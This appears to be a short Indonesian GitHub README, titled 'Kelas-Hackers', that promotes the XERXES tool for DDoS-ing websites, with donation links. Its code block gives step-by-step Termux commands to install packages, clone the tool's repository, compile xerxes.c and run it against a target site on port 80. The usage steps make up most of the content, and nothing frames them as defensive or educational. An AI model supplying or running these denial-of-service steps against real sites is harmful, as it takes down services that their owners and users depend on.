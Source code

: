 
<center><noscript><a href="https://r-protech.blogspot.com"><img display: block; margin-left: auto; margin-right: auto; width="300px" alt="Donate using Liberapay" src="https://1.bp.blogspot.com/-n5K_-jCBJwc/X09tKGiwahI/AAAAAAAAAEk/BZ1i4fezdiwZbhN8AZO6VagZKmJeQ7-SgCLcBGAsYHQ/s1233/logo.png"></a></noscript><br/></center>


# Kelas-Hackers


## Jangan lupa Kunjungi : <noscript><a href="https://r-protech.blogspot.com"><img width="100px" alt="Donate using Liberapay" src="https://1.bp.blogspot.com/-m2JyQ7xyKuw/X02-DjWaS4I/AAAAAAAAACU/auN-DJJdNgYpmmCD9IXUa_1wVuM2XZ33gCLcBGAsYHQ/s519/20200901_101424.png"></a></noscript><br/>

XERXES DoS tool Yang Kuat untuk menDDOS suatu Website

```
# Cara Menggunakan :

# $ pkg update && pkg upgrade
# $ pkg install php
# $ pkg install python2
# $ pkg install mechanize
# $ pkg install openssh
# $ pkg install git
# $ git clone https://github.com/TheSploit/Xerxes
# $ cd Xerxes
# $ gcc xerxes.c -o xerxes
# $ ./xerxes namaweb.com 80
```
```From World```
<noscript><a href="https://paypal.me/indonimous"><img alt="Donate using Liberapay" src="https://liberapay.com/assets/widgets/donate.svg"></a></noscript><br/>
```From Indonesian```
<noscript><a href="https://sociabuzz.com/rivalid/donate"><img alt="Donate using Liberapay" src="https://liberapay.com/assets/widgets/donate.svg"></a></noscript>

